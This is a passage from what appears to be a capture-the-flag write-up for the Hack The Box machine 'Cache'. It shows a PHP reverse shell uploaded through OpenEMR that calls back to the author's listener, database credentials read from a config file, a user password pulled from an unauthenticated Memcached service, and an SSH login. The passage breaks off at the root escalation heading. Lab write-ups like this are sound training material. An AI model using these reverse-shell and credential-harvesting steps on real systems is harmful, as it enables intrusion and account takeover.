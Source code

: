 After clicking _Save_, the file can be found in _/sites/default/images/php-reverse-shell.php_.
When clicking on it, it will execute and the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

There are some interesting services running on localhost:
```
ss -lnpt

127.0.0.1:3306
127.0.0.1:11211
```

Port 3306 is a SQL database and port 11211 is usually for **Memcached**.

The file _/var/www/hms.htb/public_html/sites/default/sqlconf.php_ has a password for the SQL database:
```
$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = '3open6emr9';
$dbase  = 'openemr';
```

We don't have to enumerate the database as the important data was dumped before, but the password may be useful later.
The password found earlier for the _cache.htb_ login works to switch users to _ash_:
```
su ash -
```

It looks like that the path to escalate privileges lays in **Memcached**.

Connecting to the **Memcached** service on port 11211:
```
telnet localhost 11211
```

Enumerating user information:
```
> get user
VALUE user 0 5
luffy

> get passwd
VALUE passwd 0 9
0n3_p1ec3
```

The user _luffy_ does exist on the box and the password works when trying to login via SSH:
```
ssh luffy@10.10.10.188
```

### Privilege Escalation to root
